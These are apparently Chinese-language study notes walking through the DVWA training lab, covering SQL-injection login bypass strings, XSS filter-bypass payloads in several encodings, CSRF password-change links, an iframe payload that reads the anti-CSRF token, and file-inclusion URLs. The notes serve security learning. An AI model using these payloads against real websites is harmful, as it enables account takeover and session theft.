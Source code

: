 # dvwa

## bruteforce

### level：low  
<b>1.注入方式：</b>
-   源码：query  = "SELECT * FROM \`users\` WHERE user = '\$user' AND password = '\$pass';"   
-    admin' #  &emsp;或者	&emsp;admin' -- a   &emsp;或者&emsp; a' or '1' = '1' limit 1 #

### level:medium

<b>1.暴力破解 </b> 
-   burpsuit intruder
-   MySQL5.5.37以下版本如果设置编码为GBK，能够构造编码绕过mysql_real_escape_string 对单引号的转义
---
##  xss

1.  窃取cookie
2.  劫持流量恶意跳转
3.  xss的利用和绕过  
     -  大小写绕过
         -  这个绕过方式的出现是因为网站仅仅只过滤了`<script>`标签，而没有考虑标签中的大小写并不影响浏览器的解释所致。具体的方式就像这样：`<sCript>alert("hey!")</scRipt>`
    -  利用过滤后返回语句再次构成攻击语句来绕过
        -  `<sCri<script>pt>alert("hey!")</scRi</script>pt>`
    -  并不是只有script标签才可以插入代码
        -  `<img src='w.123' onerror='alert("hey!")'>`
        -  `<a onmousemove=alert(1)> `
        -  `<div onmouseover=‘do something here’> `
    -  编码脚本代码绕过关键字过滤
        -  `<script>eval(\u0061\u006c\u0065\u0072\u0074(1))</script>`
    -   主动闭合标签实现注入代码
    -   html实体编码
        -   `<iframe src=javascript:alert(1)>`
        -   `<iframe src=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;>`
    -   URL编码
        -   `<iframe src=”javascript:alert(1)”>test</iframe>`
        -   `<iframe src="javascript:%61%6c%65%72%74%28%31%29"></iframe>`
        -   Javascript解析器工作的时候将`\u0061\u006c\u0065\u0072\u0074`进行js解码后为”`alert`”，但是需要注意像圆括号、双引号、单引号不能编码，否则在这种场景下无法弹窗。
4.  xss编码详情
    -   <a href="xss.md">编码相关</a>
---
### 1.  反射型xss

- ####   level:medium
  -   要闭合 `<option><select>`标签

- ####   level:high
    - URL的部分发往服务器时#号后面的并不会发送到服务器，但是javascript代码还会正常读取，所以利用这个特性来绕过服务器端的检查。

---
## csrf

-   ### 简介
    - CSRF，全称Cross-site request forgery，翻译过来就是跨站请求伪造，是指利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。

-   ### level ：low
    -   构造链接  如：`http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#` 缺点是容易被发现，所以可以将上面的链接转换成短链接。  
    -   构造一个网页，添加标签：`<img src="http://192.168.32.215/dvwa/vulnerabilities/csrf/?password_new=hack&password_conf=hack&Change=Change#" border="0" style="display:none;"/> `  
    用图片这种格式会保证最后结果不会回显给用户
    -   要保证使用此链接的时候，有当前用户的cookie……更换浏览器会使cookie失效
    -   同时，可以把刚才的链接放在一个网页中（服务器中），此服务器有一个短的域名。
-   ### level:medium
    -   过滤规则是http包头的Referer参数的值中必须包含主机名（这里是192.168.153.130）
    -   将攻击的网页 命名为 host.html 则可以
-   ### level：high
    -   可以看到，High级别的代码加入了Anti-CSRF token机制，用户每次访问改密页面时，服务器会返回一个随机的token，向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。
    -   同时由于同源策略，攻击者无法获取返回页面的token。
    -   在xss界面构造payload` <iframe src=../csrf onload=alert(frames[0].document.getElementsByName('user_token')[0].value)>`获取token
    -   个人想法：通过xss构造payload携带cookie，token访问本机的某个页面，这个页面在通过cookie和token去攻击。

##  文件包含
 - level: low
    - `http://192.168.32.215/dvwa/vulnerabilities/fi/?page=/opt/lampp/htdocs/dvwa/phpinfo.php`
- level:medium
    - `http://192.168.32.215/dvwa/vulnerabilities/fi/?page=/opt/lampp/htdocs/dvwa/phpinfo.php`
- level:high
    - source：   
`<?php  
// The page we wish to display  
$file = $_GET[ 'page' ];
// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}
?> `